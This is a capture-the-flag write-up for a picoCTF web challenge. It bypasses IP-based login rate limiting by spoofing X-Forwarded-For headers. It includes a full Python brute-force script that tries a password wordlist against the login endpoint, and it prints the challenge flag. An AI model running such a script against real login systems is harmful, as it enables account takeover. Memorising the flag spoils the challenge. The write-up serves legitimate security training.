

# Crack the Gate 2 (Medium, Web Exploitation)
>The login system has been upgraded with a basic rate-limiting mechanism that locks out repeated failed attempts from the same source. We’ve received a tip that the system might still trust user-controlled headers. Your objective is to bypass the rate-limiting restriction and log in using the known email address: **ctf-player@picoctf.org** and uncover the hidden secret.

## Overview

This challenge requires bypassing a login system protected by an IP-based rate-limiting mechanism. The target email is provided, along with a password wordlist for brute-force attempts.

Based on the hint, the application still trusts user-controlled headers. In particular, the `X-Forwarded-For (XFF)` header appears to be used to determine the client’s IP address.

Since this header can be manipulated by the client, we can spoof a different IP address in each request. As a result, the server treats each login attempt as coming from a different source, effectively bypassing the rate limit.

This allows us to perform a successful brute-force attack using the provided password wordlist.

## Exploitation Steps

### Step 1: Identifying Rate Limiting Behavior

I sent a request to the login endpoint to observe the server’s response:
``` json
{"success":false,"error":"Too many failed attempts. Please try again in 20 minutes."}
```
From this response, I observed that:
- The server enforces a rate limit after multiple failed attempts
- The response contains a success field, which can be used to determine whether login is successful

### Step 2: Crafting a Brute Force Script with Header Spoofing

I created a Python script to automate the brute-force attack using the provided password wordlist.

The script:
- Iterates through each password in the list
- Spoofs the `X-Forwarded-For` and `X-Real-IP` headers with random IP addresses
- Sends a login request for each attempt
- Checks the `success` field in the response to determine if authentication succeeded
``` python
import requests
import random
import time
import json

url = "http://amiable-citadel.picoctf.net:52038/login"
email = "ctf-player@picoctf.org"

def random_ip():
    return ".".join(str(random.randint(0, 255)) for _ in range(4))

with open("./passwords.txt", "r") as f:
    passwords = f.read().splitlines()

for idx, password in enumerate(passwords, 1):
    headers = {
        "X-Forwarded-For": random_ip(),
        "X-Real-IP": random_ip(),
        "User-Agent": "Mozilla/5.0"
    }
    data = {"email": email, "password": password}
    
    try:
        resp = requests.post(url, data=data, headers=headers, timeout=5)
        result = resp.json()
        
        print(f"[{idx}] Trying: {password[:20]}... | Status: {resp.status_code}")
        
        if result.get("success") == True:
            print(f"\n🎉 FOUND! Password: {password}")
            print(f"Response: {result}")
            break
        else:
            error = result.get("error", "")
            print(f"    Failed: {error[:80]}")
            
            if "20 minutes" in error:
                print("    Waiting 20 minutes...")
                time.sleep(1200)
                
    except Exception as e:
        print(f"Error: {e}")
    
    time.sleep(random.uniform(0.3, 0.8))
```
By randomizing the IP address in each request, the server treats every attempt as coming from a different client, allowing us to bypass the rate-limiting mechanism.


### Step 3: Successful Login and Flag Retrieval

After running the script, a valid password was found.

Using the correct credentials, I successfully logged in and retrieved the flag:
```
picoCTF{xff_byp4ss_brut3_473b3fdd}
```

